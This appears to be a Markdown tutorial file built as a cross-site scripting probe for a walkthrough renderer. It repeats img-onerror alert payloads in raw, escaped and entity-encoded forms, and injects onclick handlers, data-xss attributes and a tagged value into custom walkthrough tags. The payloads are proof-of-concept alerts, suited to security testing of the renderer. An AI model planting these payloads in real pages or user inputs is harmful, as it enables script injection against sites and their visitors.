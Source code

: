 #Header1 <img src=x1 onerror=alert(1)>
##Header2 \x3cimg src=x2 onerror=alert(2)\x3e
##Header3 \u003cimg src=x3 onerror=alert(3)\u003e
##Header3 &lt;img src=x3 onerror=alert(3)&gt;

<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>

<walkthrough-ICON_NAME data-xss></walkthrough-ICON_NAME>
<walkthrough-cloud-shell-icon data-xss>aasd</walkthrough-cloud-shell-icon>
<walkthrough-web-preview-icon data-xss>asd</walkthrough-web-preview-icon>
<walkthrough-cloud-shell-editor-icon data-xss></walkthrough-cloud-shell-editor-icon>
<walkthrough-nav-menu-icon data-xss></walkthrough-nav-menu-icon>
<walkthrough-notification-menu-icon data-xss></walkthrough-notification-menu-icon>
<walkthrough-pin-section-icon data-xss></walkthrough-pin-section-icon>

<walkthrough-tutorial-duration duration="DURATION"></walkthrough-tutorial-duration>
<walkthrough-tutorial-duration duration="XSSDURATION"></walkthrough-tutorial-duration>
<walkthrough-tutorial-duration duration="XSSDURATION<xss>"></walkthrough-tutorial-duration>
```<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
```
